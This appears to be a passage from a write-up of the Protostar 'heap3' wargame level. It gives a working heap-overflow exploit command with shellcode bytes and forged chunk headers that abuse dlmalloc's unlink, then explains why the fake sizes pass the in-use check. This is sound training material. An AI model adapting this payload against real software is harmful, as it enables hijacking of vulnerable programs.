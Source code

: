     `/opt/protostar/bin/heap3 $(python -c "print('A'*12+'\xb8\x64\x88\x04\x08\xff\xd0')") $(python -c "print('B'*36+'\x65')") $(python -c "print('C'*88+'D'*4+'\xcc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08')")`

    - The 4 bytes before the fffffffc fffffffc fd bk chunk can be anything as long as it does not contain null bytes

    - The first fffffffc within fffffffc fffffffc fd bk chunk can be anything as long as it does not contain null bytes and the last bit is 0

- How we check if the next chunk is in used or not (i.e. calculation of the nextinuse variable)? USing the function inuse_bit_at_offset:

    ```
    nextinuse = inuse_bit_at_offset(nextchunk, nextsize); // find if the next chunk is in use or not

    /* size field is or'ed with PREV_INUSE when previous adjacent chunk in use */
    #define PREV_INUSE 0x1
    
    /* check/set/clear inuse bits in known places */
    #define inuse_bit_at_offset(p, s)\
     (((mchunkptr)(((char*)(p)) + (s)))->size & PREV_INUSE)
    ```

    - To know if the next chunk is in use or not, we need to look at the size of the next next chunk and see if the last bit is set

    - 804c0b4 + fffffffc = 10804c0b0 but is 32 bit so we only see 804c0b0

    - So the next next chunk is at 804c0b0 which will be ... 0xfffffffc 0xfffffffc fd

    - Then we look at the size of this chunk which is stored in 0xfffffffc and we observe that the last bit is not set 0xc = 1100 in bits

    - In theory then 0xe should work as well

- Data structure of a malloc chunk:

    ```
    struct malloc_chunk {

      INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
      INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */
    
      struct malloc_chunk* fd;         /* double links -- used only if free. */
      struct malloc_chunk* bk;
    };
    ```

### References

[Voodoo malloc tricks & Once upon a free() articles](http://phrack.org/issues/57/8.html)

[LiveOverflow explanation of free() and unlink()](https://www.youtube.com/watch?v=HWhzH--89UQ&t=140s)

[Writeup on Heap3 by airman604](https://airman604.medium.com/protostar-heap-3-walkthrough-56d9334bcd13)
